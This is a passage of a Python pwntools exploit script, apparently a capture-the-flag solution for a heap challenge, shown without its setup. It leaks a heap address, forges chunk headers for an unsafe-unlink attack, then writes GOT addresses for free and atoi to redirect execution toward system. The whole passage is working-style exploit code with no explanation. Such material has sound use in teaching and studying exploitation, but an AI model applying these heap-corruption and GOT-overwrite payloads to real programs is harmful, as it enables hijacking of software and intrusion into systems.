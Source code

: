 ```python
new('22222222')

List()

p.recvuntil('11111111')

s=p.recvuntil('\x0a')

chunk2=u64(s[:-1].ljust(8,'\x00'))

heap_addr=chunk2-0x1940

point_chunk0=heap_addr+0x30

print hex(heap_addr)

#clean
delete(1)

delete(2)

delete(3)



#unlink

payload = p64(0x90)+p64(0x81)+p64(point_chunk0-0x18)+p64(point_chunk0-0x10) 

payload +='a'*0x60

payload += p64(0x80)+p64(0x90)

payload +='c'*0x80+p64(0x90)+p64(0x121)

edit(0,payload)
#gdb.attach(p)
delete(1)





#free_got->system

free_got_addr=e.got['free']

print hex(free_got_addr)

payload2=p64(4)+p64(1)+p64(0x8)+p64(free_got_addr)

payload2+=p64(1)+p64(0x8)+p64(chunk2)

payload2+=p64(1)+p64(0x8)+p64(e.got['atoi'])

payload2+='\x00'*(0x120-80)

edit(0,payload2)

#gdb.attach(p)


p.recvuntil('Your choice: Invalid!\n')
```